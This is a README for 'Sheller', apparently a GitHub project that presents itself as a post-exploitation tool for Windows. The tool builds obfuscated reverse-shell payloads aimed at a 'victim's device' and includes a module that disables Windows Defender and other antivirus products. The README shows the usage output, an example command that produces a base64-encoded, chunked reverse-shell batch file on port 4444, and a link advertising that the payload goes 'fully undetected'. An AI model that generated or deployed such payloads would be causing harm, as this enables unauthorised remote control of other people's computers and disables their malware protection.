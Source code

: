 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
To see Information:
```python 

```
```
root@lukeproducts:~/Sheller/# python3 sheller.py
Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```


# Example
``
python sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)

